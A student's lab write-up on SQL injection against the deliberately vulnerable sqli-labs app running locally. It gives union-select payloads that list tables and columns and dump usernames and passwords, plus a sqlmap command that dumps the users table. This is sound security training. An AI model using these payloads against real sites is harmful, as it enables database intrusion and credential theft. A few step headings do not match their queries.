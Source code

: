 # Lab 9.1 SQLi Review

## Preparation

Mysqld configuration on Kali

```sh
sudo systemctl enable mysqld 
sudo systemctl start mysqld
sudo mysql_secure_installation
```

Note, current root password for mysql is nothing so hit [Enter]

```shell
Switch to unix_socket authentication [Y/n] n
Change the root password? [Y/n] Y
Remove anonymous users? 
Disallow root login remotely? [Y/n] y[Y/n] y
Remove test database and access to it? [Y/n] y
Reload privilege tables now? [Y/n] y
```

clone the sqli-labs-php git repository

```shell
mkdir -p ~/sec335/week9
cd ~/sec335/week9
git clone https://github.com/skyblueee/sqli-labs-php7.git
cd sqli-labs-php7
```

edit sql-connections/db-creds.inc

![img](./images/1.png)

start the application



access the application and click on the Setup/reset Database for labs link.



![img](./images/3.png)

![img](./images/2.png)

Go through the following [SQLi walk through](https://dinohacks.blogspot.com/2019/09/audi-sqli-labs-lesson-1-walkthrough.html)Capture and label screenshots for:



# Deliverables

Add increased error handling and a debug statement for the raw sql as shown below. By default php8 will suppress many of the error messages.

![image-20221114191329503](./images/4.png)





Go through the following [SQLi walk through](https://dinohacks.blogspot.com/2019/09/audi-sqli-labs-lesson-1-walkthrough.html)

Capture and label screenshots for:

## 1. Display the Login name and password for arbitrary user

`127.0.0.1:8090/Less-1/?id=1`

![image-20221114191651410](./images/5.png)

## 2. Error condition when number of columns are exceeded

`127.0.0.1:8090/Less-1/?id=1'%27%20order%20by%204%20--+`

![image-20221114191802979](./images/6.png)

## 3. A Union select that displays your own value for login name and password

`127.0.0.1:8090/Less-1/?id=-1%27%20union%20select%201,user(),database()%20--+`

![image-20221114193351944](./images/7.png)

## 4. Another union that displays the mysql user and database

`127.0.0.1:8090/Less-1/?id=-1'%20union select 1,group_concat(table_name),3%20from%20information_schema.tables%20where table_schema=database()--+`

![image-20221114194151662](./images/8.png)

## 5. A union that dumps all the tables in the current database

`[http://127.0.0.1:8090/Less-1/?id=-1%27%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_schema=database()--+](http://127.0.0.1:8090/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database()--+)`

![image-20221114194733865](./images/9.png)



## 6. A union that dumps all the usernames and passwords

`http://127.0.0.1:8090/Less-1/?id=-1%27%20union%20select%201,group_concat(username),group_concat(password)%20from%20users%20--+`

![image-20221114194848383](./images/10.png)



## Deliverable 7. Figure out how to run sqlmap against the vulnerable uri: http://127.0.0.1:8090/Less-1?id=1

* Run this using Medium Difficulty and Intermediate Enumeration.

* Figure out how to dump the contents of the users table in the security database.

* Provide a screenshot showing the results of dumping the user's table.

I used the following link [https://github.com/sqlmapproject/sqlmap] as a guide to use sqlmap.

`sqlmap -u http://127.0.0.1:8090/Less-1/?id=1 -T users --level 2 --risk 2 --dump`

![1](./images/11.png)

























